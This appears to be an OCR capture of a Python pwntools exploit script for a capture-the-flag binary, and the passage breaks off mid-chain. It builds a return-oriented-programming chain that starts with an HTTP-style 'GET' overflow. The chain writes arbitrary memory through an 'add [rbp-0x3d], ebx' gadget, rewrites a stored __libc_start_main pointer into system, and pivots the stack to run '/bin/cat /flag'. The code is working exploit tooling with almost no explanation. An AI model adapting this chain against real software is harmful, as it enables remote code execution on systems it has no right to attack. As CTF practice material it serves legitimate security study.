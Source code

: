 ```python
def arb_write(addr, string):
	string=string+b"\x00"*(8-(len(string)%8))
	a=seperate(string, 4)
	j=0
	payload = b""
	for i in a:
		if i == b'\x00\x00\x00\x00':
			j=j+4
			continue # skip the unnecessary add instruction if ebx is 0  
		payload += _3d_write(addr+j, i.ljust(8, b"\x00"))
		j=j+4
	return payload

def _3d_write(addr,value):
	tmp = flat([

		0x4019f2, # pop rbx, rbp, r[12 13 14 15]
		value,
		addr+0x3d,
		p(0)*4,
		_3d_gadget

	])
	return tmp

libc=SetupLibcELF()
io = start()

R = Rootkit(io)

mov_rax_rbp = 0x4014bd #    mov rax,QWORD PTR [rbp-0x8]; add rsp,0x10; ret
_3d_gadget  = 0x4011c8 #    add [rbp-0x3d], ebx; nop [rax+rax]; ret; 
mov_rbp_rax = 0x401902 #    mov [rbp-0x8], rax; mov rax, [rbp-0x8]; add rsp, 0x250; pop rbp; ret;

header = b"GET " + b"\x00"*524
bss=0x404040
system = bss+0xe80

rop=flat([

	header,
	
	# put a libc address at bss
	exe.sym['__libc_start_main']+8, # rbp
	mov_rax_rbp, # make rax point to __libc_start_main
	p(0)*3, # junk
	pop("rbp", system+8),
	mov_rbp_rax, # write rax to bss address (system variable points to that address in bss)
	b"\x00"*0x250, p(0xdeadbeef), # junk

	# write /bin/sh to bss
	arb_write(bss+0x10, b"/bin/cat /flag\x00"),

	# change __libc_start_main to system ; system = __libc_start_main + 0x2e450
	_3d_write(system, p(0x2e450)),

	# write pop rdi -> bss gadget before system address in bss
	arb_write(system-16, gadget("pop rdi; ret") + p(bss+0x10)),

	# call system("/bin/cat /flag\x00")
	0x000000004019f5, # pop rsp; r[13, 14, 15]; ret
	system-24-16, # stack pivot to pop rdi that we crafted above system address in bss 

```